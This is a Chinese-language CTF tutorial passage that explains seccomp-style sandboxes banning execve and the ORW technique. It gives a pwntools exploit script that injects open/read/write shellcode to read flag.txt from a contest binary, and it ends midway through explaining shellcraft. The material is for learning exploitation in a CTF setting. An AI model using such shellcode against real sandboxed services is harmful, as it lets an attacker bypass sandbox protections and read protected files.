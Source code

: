 sandbox
-------

 sandbox（沙箱），是一种安全机制，为执行中的程序提供的隔离环境。通常是作为一些来源不可信、具破坏力或无法判定程序意图的程序提供实验之用。  
在ctf比赛中，pwn题中的沙盒一般都会限制 execve 的系统调用，这样一来one\_gadget和system调用都不好使，只能采取 **open/read/write** 的组合方式来读取flag，即 **ORW类题**。

### 例题演示：

来自某高校新生杯赛题—shellcode

ida打开发现这道题是让我们输入一段shellcode，然后程序会运行它，但是这里存在**sandbox()**函数，他会进行过滤，这道题的提示里面说**execve()**被ban了，让我们尝试直接读取flag

![image-20211115180126969](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-02c71516163d762bfc77db1b0ec93af00effb5b0.png)

很明显这是一类题型——**ORW**类题

**ORW** 类题目是指程序开了沙箱保护，禁用了一些函数的调用（如 execve 等），使得我们并不能正常 get shell ，只能通过 ROP 的方式先调用 open 打开 flag 文件，然后利用 read 把 flag 的值读取到内存里面， 最后通过 write 来读取并打印 flag 内容。

所以我们需要一个依次调用**open()**、**read()**、**write()**的shellcode，先用**open()**打开文件flag.txt 然后通过**read()**读取文件内容到 栈上 最后利用**write()**将其输出到屏幕上。

#### Exp：

```python
from pwn import *

p = process("./shellcode")
context(os="linux", arch="amd64",log_level = 'debug') 

gdb.attach(p,"b *0x400CE7")
shellcode = shellcraft.open('flag.txt')
print("this is asm:"+shellcode)
print("this is bitcode:" + asm(shellcode))
shellcode += shellcraft.read('rax','rsp',100)
shellcode += shellcraft.write(1,'rsp',100)
shellcode = asm(shellcode)
p.sendline(shellcode)
p.interactive()

```

**关键点：** 利用pwntools自带的功能生成我们想要的shellcode，先选择架构

```python
context(os = "linux", arch = "amd64")
```

然后再生成shellcode,

```python
shellcraft.fuction(arg1,arg2,arg3...)
```

这个命令能帮我们生成一个调用函数fuction(arg1,arg2,arg3...)的汇编代码，
